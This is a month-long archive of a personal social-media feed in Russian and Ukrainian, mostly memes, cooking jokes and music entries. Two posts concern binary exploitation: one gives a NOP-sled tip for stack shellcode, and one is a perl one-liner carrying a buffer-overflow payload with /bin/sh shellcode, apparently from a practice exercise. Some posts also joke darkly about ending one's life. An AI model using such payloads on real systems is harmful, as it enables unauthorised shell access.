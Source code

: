 ```yaml
---
title: 2020-04
date: 2020-04-01 00:06:24
draft: false
---
```


date: 2020-04-29 23:03:29
постинг тупых мемов продолжается
-----
same energy

![](/img/vk/zWt7Hzh4Av4.jpg)
![](/img/vk/Pwk8VASAywo.jpg)

date: 2020-04-29 01:55:30
Стався

![](/img/vk/09R_TcVjrqA.jpg)

date: 2020-04-27 23:15:23
Бігаю коли треба. Коли не треба не бігати.

![](/img/vk/3-WFCe54l0A.jpg)

date: 2020-04-27 19:13:42
Ленивый обзор на Канемана

![](/img/vk/Yc4peXftoTU.jpg)

date: 2020-04-22 17:28:22
У меня разрядилась батарейка на мышке, поэтому я теперь как конч сижу с графпланшетом как мышкой. Принимаю заказы, что нарисовать, цена: 0 долларов по сегодняшнему курсу. Примеры моих работ прикрепляю

![](/img/vk/jDbNyNCbp0Y.jpg)
![](/img/vk/OXtkf5Z3Od8.jpg)

date: 2020-04-20 23:03:04
Админ упарывается диффурами, функаном, вариационным анализом и матфизикой с щепоткой квантовой физики
связаны. связаны

![](/img/vk/YSwCdDIoKyo.jpg)

date: 2020-04-19 10:39:16
![](/img/vk/X1CP8Gz0owk.jpg)
![](/img/vk/CXrUjewnou0.jpg)

date: 2020-04-17 03:08:55
Ежевечный пост о том, что слушать на работе
радио сычхаос
http://radcap.ru/witchhouse.html

date: 2020-04-16 20:01:42
1536. Гренки

![](/img/vk/PL5csSKZADc.jpg)

date: 2020-04-15 22:07:18
Достижение получено: есть собственно приготовленные жареные куски теста со сметаной в течение трех дней и не сдохнуть.👍🏻

![](/img/vk/dVlcLgg18wM.jpg)

date: 2020-04-15 10:40:35
❤👇🏻
![](/img/vk/98nSIHInGdE.jpg)

date: 2020-04-13 21:20:54
TODO: fix
![](/img/vk/doc168715495_544706758)
      "audio": {
        "artist": "M()RE",
        "title": "Sugarfree",
      },

date: 2020-04-10 20:17:24
134468. Панкейки

![](/img/vk/s7WHzQzHMnY.jpg)

date: 2020-04-09 11:45:43
![](/img/vk/n7Zz3lTXQds.jpg)

date: 2020-04-07 00:29:36
(имя и фото изменены на вымышленные)

![](/img/vk/BStubplyAmg.jpg)

date: 2020-04-05 01:48:43
Полезные советы молодым пывнерам #42:

Чтобы вызвать шелкод со стека вне дебагера, можно добавить 100 или более нопов и к адресу возврата, полученному из дебагера прибавить половину длины нопслайда(в нашем случае 50). Работает понятно только с выключенным ASLR & NX, но зато стабильно. Также полезно спать, а не заниматься перебором оффсетов в полпервого ночи.

![](/img/vk/bFWv4ECx90Q.jpg)

date: 2020-04-04 23:58:39
Это я, пытаюсь понять, зачем чел выделяет 0x68=104 байт на стеке, а юзает только 64+4+8=76

![](/img/vk/Xchf-A-ROW8.jpg)

date: 2020-04-04 13:13:04
PEPELEPSY

https://www.youtube.com/watch?v=0RxAa8a8tUE

date: 2020-04-04 09:11:00
![](/img/vk/0psPeWqTFlM.jpg)
      "audio": {
        "artist": "CRASPORE",
        "title": "Flashbacks",
      },
      "audio": {
        "artist": "Crystal Castles",
        "title": "Sadist",
      },
      "audio": {
        "artist": "fraunhofer diffraction",
        "title": "kali yuga",
      },
      "audio": {
        "artist": "M()RE feat. CHERNOBURKV",
        "title": "\u0421\u0443\u043a\u0438 \u0422\u0430\u043d\u0446\u044b \u0438 \u041d\u043e\u0436\u0438",
      },
      "audio": {
        "artist": "CRASPORE, CHERNOBURKV",
        "title": "\u0417\u0438\u043c\u0430",
      },

date: 2020-04-03 22:58:44
На случай важных переговоров
(perl -e 'print "A" x 76 . pack("I", 0xbffff780) . "\x90" x 60 . "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x4b\x4b\x4b\x4b"'; echo id)

date: 2020-04-01 12:40:35
Если уж собрался заканчивать жизнь😨, то почему бы ❓не отдать все деньги💰 на благотворительность💌. А раз есть такая возможность, то можно еще и поиграть в игрульки🏆, почему бы нет🤔.
https://www.humblebundle.com/conquer-covid19-bundle

date: 2020-04-01 12:04:07
Жизнь — это боль. Я каждое утро просыпаюсь с болью, хожу на работу с болью! Сказать, сколько раз мне хотелось послать все к черту, свести счеты с жизнью?

![](/img/vk/HaSC0UIR8B4.jpg)

date: 2020-04-01 00:06:24
TODO: delete

![](/img/vk/CbMfa7PsBu8.jpg)
      "audio": {
        "artist": "LENA",
        "title": "\u0412\u0421\u041a\u0420 \u0412\u0421\u041a\u0420 \u0412\u0421\u041a\u0420 \u0412\u0421\u041a\u0420",
      },
